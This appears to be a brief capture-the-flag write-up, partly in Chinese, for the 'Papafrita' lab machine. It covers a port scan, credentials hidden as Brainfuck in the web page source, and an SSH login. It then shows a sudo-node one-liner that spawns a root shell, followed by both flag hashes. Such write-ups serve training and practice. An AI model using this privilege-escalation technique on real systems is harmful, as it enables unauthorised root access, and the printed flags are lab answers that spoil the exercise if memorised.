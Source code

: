 # Papafrita

2025.03.08 https://thehackerslabs.com/papafrita/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 web 首页源代码发现 brainfuck：

```
++++++++++[>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++>++++++++++++>+++++++++++>+++++++++++>++++++++++<<<<<<<<<<<<<<<<<<<<-]>---.>--.>---.>+.>--.>---.>-.>---.>--.>-----.>+.>.>----.>---.>--.>---.>-----.>+.>++.>---.
```

解密得到: abuelacalientalasopa 可以分解成 abuela:calientalasopa 或者是 abuela:abuelacalientalasopa 尝试进行 ssh 登陆，发现 abuela:abuelacalientalasopa 能够登陆。

sudo -l 显示 (root) NOPASSWD: /usr/bin/node

```
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

最终拿到 2 个 flag：

```
# cat user.txt
f3e431cd1129e9879e482fcb2cc151e8
# cat /root/root.txt
7e69e6849ca2dac8fc1e4cdf9f7b915f
```
